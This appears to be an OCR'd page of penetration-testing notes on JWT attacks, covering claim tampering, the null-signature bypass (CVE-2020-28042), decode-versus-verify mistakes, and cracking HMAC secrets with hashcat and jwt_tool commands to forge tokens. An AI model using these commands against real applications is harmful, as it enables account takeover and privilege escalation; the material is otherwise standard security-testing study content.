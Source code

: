     # Tamper data without modifying anything
    You can just tamper with the data leaving the signature as is and check if the server is checking the signature. Try to change your username to "admin" for example.
    Is the token checked?
    - If an error message occurs the signature is being checked - read any verbose error info that might leak something sensitive.
    - If the page returned is different the signature is being checked.
    - If the page is the same then the signature is not being checked - time to start tampering the Payload claims to see what you can do!
    ```
    
- **null signature (CVE-2020-28042):**
    
    ```jsx
    Delete the signature from the end of the token. If vulnerable the application will fail to check the signature as it sees nothing that needs checking.
    Use jwt_tool to create the modified token [IN PROGRESS]
    
    $ python3 jwt_tool.py JWT_HERE -X n
    ```
    

Many JWT libraries provide one method to decode the token and another to verify it:

- `decode()`: Only decodes the token from base64url encoding without verifying the signature.
- `verify()`: Decodes the token and verifies the signature.

Sometimes developers might mix up these methods. In that case, the signature is never verified and the application will accept any token (in a valid format). Developers might also disable signature verification for testing and then forget to re-enable it. Such mistakes could lead to arbitrary account access or privilege escalation.

### Secret Keys Flaws

- **Crack HMAC secret Key**
    
    If you can crack the HMAC secret then you can forge anything you like in the token. This could be a `**critical**` vulnerability.
    
    ```python
    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token.
    -----------------------------------
    3. If JWT-Heartbreaker Plugin is installed then weak secret-key will directly be shown to you.
    																			OR
    3. Copy JWT Token and store it in a text file then usse Hashcat to crack the Secret key using below command.
    		"hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --force"
    		"hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --show" //this will show cracked secret-key
    Hashcat commands:
    
    Dictionary attack: hashcat -a 0 -m 16500 jwt.txt wordlist.txt
    Rule-based attack: hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule
    Brute force attack: hashcat -a 3 -m 16500 jwt.txt ?u?l?l?l?l?l?l?l -i --increment-min=6
    																			OR
    3. Use Jwt_Tool to crack the secret key using below command:
    			"python3 jwt_tool.py <JWT> -C -d secrets.txt"
    ----------------------------------
    4. Now Use the Secret key to forge the request using jwt.io or jwt_tool with option "-p"
    5. Done, Use the generated token in request and forward the request.
    